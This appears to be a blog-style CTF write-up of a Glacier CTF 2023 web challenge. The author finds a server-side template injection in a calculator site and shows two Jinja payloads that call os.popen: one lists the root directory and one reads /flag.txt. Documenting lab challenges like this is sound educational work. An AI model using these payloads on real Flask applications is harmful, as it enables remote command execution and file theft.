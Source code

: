 ```yaml
---
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [CTF, Glacier CTF 2023]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs
{: .prompt-info }

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/assets/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/assets/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/assets/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/assets/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/assets/img/glacier-ctf-2023/5.png)

